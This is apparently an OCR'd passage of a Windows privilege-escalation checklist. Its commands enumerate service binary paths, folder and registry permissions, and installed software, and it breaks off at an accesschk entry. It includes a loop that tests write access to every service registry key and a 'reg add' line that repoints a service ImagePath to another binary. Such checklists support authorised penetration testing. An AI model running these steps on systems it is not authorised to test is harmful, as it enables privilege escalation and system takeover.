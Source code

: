     * [ ] DLL Hijacking / Overwrite service binary



    ```
     for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

     for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
     
     # do it by using sc
     sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt
     FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
     FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
    ```

    * [ ] Registry modify permissions

```
 reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services

 #Try to write every service with its current content (to check if you have write permissions)
 for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

 get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"

 # if Authenticated Users or NT AUTHORITY\INTERACTIVE have FullControl
 # it can be leveraged to change the binary path inside the registry
 reg add HKLM\SYSTEM\CurrentControlSet\srevices\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
```

*   Installed applications

    * [ ] DLL Hijacking for installed applications



    ```
     dir /a "C:\Program Files"
     dir /a "C:\Program Files (x86)"
     reg query HKEY_LOCAL_MACHINE\SOFTWARE

     Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
     Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
    ```

    * [ ] Write permissions



    ```
     # using accesschk.exe
     accesschk.exe /accepteula
     